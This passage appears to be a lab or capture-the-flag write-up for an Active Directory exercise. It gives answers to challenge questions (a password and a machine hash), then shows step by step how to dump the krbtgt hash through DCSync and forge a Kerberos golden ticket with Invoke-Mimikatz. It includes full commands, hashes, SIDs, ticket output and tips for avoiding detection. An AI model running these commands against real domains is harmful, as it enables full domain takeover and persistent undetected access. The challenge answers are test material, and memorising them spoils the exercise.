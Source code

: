 > Password1

### What is the Machine2 Hash?

Tmux search is the best

> c39f2beb3d2ec06a62cb887fb391dee0

## Golden Ticket Attacks w/ mimikatz
---
### Dcync

Get krbtgt hash for later use to craft golden ticket

> [!NOTE] Notice
> **Domain admin or DCSync permission is needed**

```bash
Invoke-Mimikatz -Command '"token::elevate /domainadmin" "lsadump::dcsync /user:krbtgt"'
```

AES 256 HMAC Hash

> `8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d`

### Craft Golden Ticket With Mimikatz

> https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden
> https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden
> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket

> [!NOTE] **4 values are required to craft golden tickets**
> - Domain User to impersonate
> - Domain Name
> - Domain SID (can get with `whoami /user`)
> - KRBTGT hash

```bash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:CONTROLLER.local /sid:S-1-5-21-849420856-2351964222-986696166 /aes256:8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d /groups:500,501,513,512,520,518,519 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

> [!NOTE] Notice
> - **Keep in mind of the command format**: Use Single quote to contain commands with double quote
> - By default, mimikatz will generate TGT with a very long validity, which is suspicious. limit the TGT to be expired in 10 minutes is more OPSEC safe
> - Remove `/ptt` to save ticket to file

Use cmd `klist` to confirm that the ticket is loaded

```bash
PS C:\Users\Administrator> klist

Current LogonId is 0:0x1b6f60
Cached Tickets: (1)

#0>     Client: Administrator @ CONTROLLER.local
        Server: krbtgt/CONTROLLER.local @ CONTROLLER.local
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 6/8/2023 8:24:37 (local)
        End Time:   6/8/2023 18:24:37 (local)
        Renew Time: 6/15/2023 8:24:37 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
